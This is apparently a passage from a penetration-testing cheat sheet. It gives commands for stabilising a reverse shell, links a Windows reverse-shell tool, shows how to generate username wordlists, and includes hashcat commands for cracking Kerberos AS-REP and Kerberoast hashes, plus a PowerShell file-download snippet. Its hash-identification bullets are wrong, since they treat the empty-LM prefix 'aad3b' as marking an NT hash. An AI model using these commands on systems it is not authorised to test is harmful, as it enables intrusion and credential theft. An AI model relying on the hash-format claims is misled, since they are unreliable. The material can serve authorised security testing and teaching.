 ```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp; 
```

```
export TERM=xterm-256color; alias ll='ls -lsaht --color=auto'
```

Ctrl + Z \[Background Process]

```
stty raw -echo ; fg ; reset
```

```
stty columns 200 rows 200
```

### Windows

https://github.com/antonioCoco/ConPtyShell

## Creating Wordlists

### Common username formats

first.last firstinitiallast lastnamefirstinital firstname

### Examples

marcela.sauceda msauceda saucedam marcela

```
./format-plugins.rb --input-file names.txt --select-format first,flast,first.last,firstl > users.txt
```

```
seclistgen first.last 0 1
```

### Hash Formats

* If hash starts with `aad3b` -- probably NT hash
* If hash does not start with `aad3b` -- probably LM hash
* `$krb5asrep$23`. `hashcat -m 18200 hashes.txt -d 2 -a 0 /usr/share/wordlists/rockyou.txt`
* `$krb5tgs$23`. `hashcat -m 13100 hashes.txt -d 2 -a 0 /usr/share/wordlists/rockyou.txt`
* hashcat --example-hashes

## File Transfer

### Download File Powershell 2.0

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://www.contoso.com/file","C:\path\file")
```
